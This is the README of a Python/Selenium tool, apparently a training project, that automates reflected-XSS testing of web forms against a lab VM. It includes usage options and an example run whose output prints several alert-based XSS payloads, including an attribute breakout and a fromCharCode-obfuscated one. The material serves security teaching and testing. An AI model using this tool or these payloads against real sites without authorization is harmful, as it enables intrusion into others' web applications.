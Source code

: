 # XSStrike

A **reflected XSS Tester for interactive forms** - The program automates testing for reflected XSS vulnerabilities by injecting various XSS payloads into a web application, automatically filling and submitting forms, and verifying whether the attack was successful by detecting alert() pop-ups or reflected code in the webpage.  

The program was created as part of my training at the Developer Academy and is used exclusively for teaching purposes.  

## Table of Contents

1. [Technologies](#technologies)
1. [Getting Started](#getting-started)
1. [Usage](#usage)
   * [Program Options](#program-options)
   * [Program FLow](#program-flow)
   * [Example Run](#example-run)

## Technologies

* **Python** 3.12.2
  * **argparse, time**
  * **Selenium** [More Information](https://selenium-python.readthedocs.io/)
    * In Python, it is a library (open-source) that allows developers to automate web applications by writing a script that performs certain actions in a web browser as if it were controlled by a human user.
    * To use it, a **WebDriver** must be installed for the respective browser, in this case:
      * **GeckoDriver for Firefox browser** v0.35.0 [More Information](https://github.com/mozilla/geckodriver)

## Getting Started

0) [Fork](https://docs.github.com/de/pull-requests/collaborating-with-pull-requests/working-with-forks/fork-a-repo) the project to your namespace, if you want to make changes or open a [Pull Request](https://docs.github.com/de/pull-requests/collaborating-with-pull-requests/proposing-changes-to-your-work-with-pull-requests/about-pull-requests).

1. [Clone](https://docs.github.com/en/repositories/creating-and-managing-repositories/cloning-a-repository) the project to your platform if you just want to use it:

    ```bash
    git clone git@github.com:SarahZimmermann-Schmutzler/XSStrike.git
    ```

1. Install the **dependencies**:
   * Create a **Virtual Environment (Venv)** in the project folder:

      ```bash
      python -m venv env
      ```

   * **Activate** the Venv:

      ```bash
      source venv/bin/activate #Linux
      env\Scripts\activate #Windows
      ```

   * Install the **dependencies** from [requirements.txt](./requirements.txt):

      ```bash
      pip install -r requirements.txt
      ```

1. Install the **GeckoDriver** for the Firefox browser:
     * [Download v0.35.0 from GitHub](https://github.com/mozilla/geckodriver/releases) and follow the instrcutions given there.

## Usage

* For the further commands navigate to the directory you cloned **XSStrike** into.

### Program Options

* To see all available **program options** have a look in the `help-section`:

    ```bash
    python xsstrike.py -h
    # or
    python xsstrike.py --help
    ```

  | Option (Long) | Short | Description | Required? |
  | ------------- | ----- | ----------- | --------- |
  | --help | -h | Get a list of the **available options** | no |
  | --url | -u | **URL** of the page containing the input form | yes |
  | --level | -l | **Level** to be entered in the form | yes |
  | --level_field | -l_f | Name of the **input field for the level** | yes |
  | --payload_field | -p_f | Name of the **input field for the payload** | yes |
  | --button | -b | Class_Name of the **submit button** | yes |
  | --wordlist | -w | Path to the **file** containing XSS payloads | yes |
  | --sink | -s | CSS selector of the **element** where the reflection should be checked | no |
  | --headless |  | Runs the browser in **headless mode** | no |

### Program Flow

* **Loads the XSS payloads** from the specified wordlist.
* Creates and configures the **WebDriver options** for Firefox.
* **Tests the XSS payloads** one after another:
  * Starts a new WebDriver instance for each payload.
  * Finds the defined input fields and the submit button on the page.
  * Injects the respective XSS payload and submits the form.
  * Checks for a JavaScript execution (alert()) to confirm an XSS vulnerability.
  * If --sink is specified, it verifies if the payload appears in the HTML.
  * If XSS is detected, the test stops, otherwise, the next payload is tested.

### Example Run

* To automatically complete the fourth level of the `Insta XSS Challenges` from the Developer Akademie's XSS VM use the following command:

  ```bash
  python xsstrike.py -u "http://10.0.2.6/index.php" \
    -l "admin4"  \
    -l_f "user" \
    -p_f "password" \
    -b "login-btn" \
    -w "payload.txt"
  ```

* It will yield the following **output**:

  ```bash
  [*] Loaded 6 payloads.
  [*] Testing Payload: x" onerror="alert('Gehackt!')
  [-] No XSS detected.
  [*] Testing Payload: alert('Gehackt!')
  [-] No XSS detected.
  [*] Testing Payload: String.fromCharCode(97,108,101,114,116,40,39,71,101,104,97,99,107,116,33,39,41)
  [!] XSS detected with payload: String.fromCharCode(97,108,101,114,116,40,39,71,101,104,97,99,107,116,33,39,41)
  ```

